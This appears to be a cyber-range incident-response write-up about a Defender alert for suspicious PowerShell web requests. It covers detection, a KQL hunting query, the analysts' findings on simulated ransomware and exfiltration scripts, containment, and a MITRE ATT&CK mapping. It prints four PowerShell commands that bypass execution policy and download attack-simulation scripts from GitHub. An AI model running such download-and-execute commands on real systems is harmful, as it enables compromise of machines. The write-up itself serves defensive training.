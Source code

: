 # Incident Response: Suspicious PowerShell Web Requests

## 🕵️ Detection and Analysis

An incident titled **“kelsier - PowerShell Suspicious Web Request”** was triggered in Microsoft Defender for Endpoint (MDE).  

Upon investigation, the following suspicious PowerShell commands were identified on device **6th-c9300**. The commands executed downloads of four separate scripts from a public GitHub repository:


![PowerShell Suspicious Web Request Investigation](incident-response/images/powershell-suspicious-web-request-1.png)




```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```



The affected user stated they attempted to install free software around the same time. They observed a black screen for a few seconds, after which “nothing happened.”

**Confirmation of Execution**

Using DeviceProcessEvents in MDE, the investigation confirmed that these downloaded scripts were indeed executed:

```kql
let TargetHostname = "6th-c9300";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```


![Sentinel Analytics Rule Setup](incident-response/images/powershell-suspicious-web-request-3.png)




![Process CommandLine Evidence](incident-response/images/powershell-suspicious-web-request-2.png)




**🧪 Malware Analysis Results**

The scripts were escalated to the malware reverse engineering team. Their findings were as follows:

**portscan.ps1** → Conducts an IP range scan for common ports, logging discovered services.

**eicar.ps1** → Generates the EICAR test string to validate AV detection.

**exfiltratedata.ps1** → Simulates data exfiltration by creating fake employee data, compressing it, and uploading to Azure Blob storage.

**pwncrypt.ps1** → Simulates ransomware by encrypting fake Desktop files and generating ransom instructions.




**🛡 Containment, Eradication, and Recovery**

**Containment**: Isolated the machine in Microsoft Defender for Endpoint.

**Eradication**: Ran a full anti-malware scan.

**Recovery**: Once clean, the machine was removed from isolation and returned to production.




**📘 Post-Incident Activities**

User was enrolled in additional cybersecurity awareness training.

The security team upgraded the corporate training package (KnowBe4) and increased training frequency.

Initiated a new policy restricting PowerShell access to essential personnel only, reducing attack surface for script-based threats.



**🔎 MITRE ATT&CK Mapping**

**T1059.001** – Command and Scripting Interpreter: PowerShell

**T1105** – Ingress Tool Transfer (downloading malicious scripts)

**T1560** – Archive Collected Data (simulated in exfiltration script)

**T1486** – Data Encrypted for Impact (simulated ransomware)

**T1046** – Network Service Scanning (port scanning activity)


